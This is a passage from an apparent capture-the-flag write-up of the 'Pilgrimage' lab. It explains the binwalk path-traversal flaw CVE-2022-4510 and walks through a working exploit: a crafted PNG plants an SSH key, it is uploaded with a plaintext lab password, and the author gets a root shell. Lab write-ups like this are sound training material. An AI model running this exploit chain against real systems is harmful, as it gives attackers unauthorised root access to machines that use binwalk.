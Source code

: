 #### Details

[This post](https://onekey.com/blog/security-advisory-remote-command-
execution-in-binwalk/) from OneKey describes who their researcher found this
issue. `binwalk` is actually a Python script, and it uses `os.path.join` to
build paths. The issue is that if there are `../` in one of the items being
joined, it doesn’t resolve those.

Files in a PFS filesystem can have `../` in their filename.

So while the code does an `os.path.join` and then checks to make sure that the
resulting path starts with the intended directory, because the `../` doesn’t
get resolved, that check will never fire and therefore is bypassed.

This gives arbitrary write as the `binwalk` process. This can be exploited by
overwriting an `authorized_keys` file or `crontab` file. The author in the
post shows how to write a `binwalk` plugin that will actually get picked up
and executed during the scan that generates it.

#### Exploit

[This repo](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) has a
working Python exploit that abuses the plugin creation method. I’ll try the
`ssh` method, giving it a template file and a public key:

    
    
    oxdf@hacky$ python walkingpath.py ssh root.png ~/keys/ed25519_gen.pub 
    

The output is a file named `binwalk_exploit.png`. I’ll upload it into the
`shrunk` directory:

    
    
    oxdf@hacky$ sshpass -p abigchonkyboi123 scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
    

From there, I’m able to SSH in as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@pilgrimage.htb 
    Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    root@pilgrimage:~# 
    

And get the root flag:

    
    
    root@pilgrimage:~# cat root.txt
    6108bf44************************
    

[](/2023/11/25/htb-pilgrimage.html)

